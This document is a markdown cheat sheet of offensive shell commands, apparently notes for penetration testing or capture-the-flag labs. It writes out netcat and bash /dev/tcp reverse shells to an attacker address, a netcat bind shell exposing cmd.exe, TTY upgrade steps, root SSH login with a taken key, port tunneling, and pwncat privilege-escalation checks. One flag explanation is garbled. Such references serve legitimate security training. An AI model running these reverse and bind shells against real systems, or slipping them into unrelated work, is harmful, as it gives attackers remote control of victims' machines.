 # Shell & Networking Commands

## Reverse Shell

### Attacker
```bash copy
sudo nc -lvnp 1234
```
- Listens for incoming reverse shell connection from victim.
- `-l`: Listen mode
- `-v`: Verb table="false"ose output
- `-n`: No DNS resolution
- `-p 1234`: Port 1234

### Victim
```bash copy
nc 10.10.10.10 1234 -e /bin/bash
```
- Connects to attacker and spawns a bash shell.
- `-e /bin/bash`: Executes bash on connection

### Victim version 2 with bash use

```bash copy
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
```

- **Description**: Creates an interactive bash reverse shell connecting to the attacker's machine.
- `-i`: Runs bash in interactive mode
- `>& /dev/tcp/10.10.10.10/1234`: Redirects stdout and stderr to TCP connection
- `0>&1`: Redirects stdin to the same TCP connection

## Bind Shell

### Victim
```bash copy
nc -lvnp 1234 -e "cmd.exe"
```
- Listens for incoming connection and spawns cmd.exe.
- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: No DNS resolution
- `-p 1234`: Port 1234
- `-e "cmd.exe"`: Executes cmd.exe

### Attacker
```bash copy
nc 10.10.10.10 1234
```
- Connects to victim’s bind shell on specified port.
- No switches

## Shell Enhancement

```bash copy
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- Spawns an interactive bash shell with proper terminal.
- No switches

```bash copy
export TERM=xterm
```
- Sets terminal type for better compatibility.
- No switches


**Note**: Now press Ctrl + Z before next step
```bash copy
stty raw -echo; fg
```
- Restores interactive shell after Ctrl+Z.
- `raw`: Raw terminal mode
- `-echo`: Disables echo
- `fg`: Brings session to foreground

## SSH

```bash copy
ssh -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.10
```
- Connects to target via SSH with legacy RSA support.
- `-oHostKeyAlgorithms=+ssh-rsa`: Enables legacy RSA key algorithms

```bash copy
ls -la /.ssh
```
- Lists SSH key files in the .ssh directory.
- `-la`: Detailed list with hidden files

```bash copy
chmod 600 root_key
```
- Sets secure permissions for SSH key file.
- `600`: Read/write for owner only

```bash copy
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.10
```
- Connects via SSH using specific key and legacy RSA.
- `-i root_key`: Specifies key file
- `-oPubkeyAcceptedKeyTypes=+ssh-rsa`: Allows RSA public keys
- `-oHostKeyAlgorithms=+ssh-rsa`: Enables legacy RSA algorithms

## SSH Tunneling

```bash copy
ssh -L 7777:10.10.10.10:1234 aubreanna@10.10.10.10
```
- Forwards local port 7777 to target’s port 1234.
- `-L 7777:10.10.10.10:1234`: Local port forwarding


## Pwncat

```bash copy
pwncat -l 4444
```
- Listens for pwncat connection on port 4444.
- `-l 4444`: Listen on port 4444

```bash copy
privesc -l
```
- Lists privilege escalation options with pwncat.
- `-l`: Lists available checks

## More
- **Here**: [PentestMonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)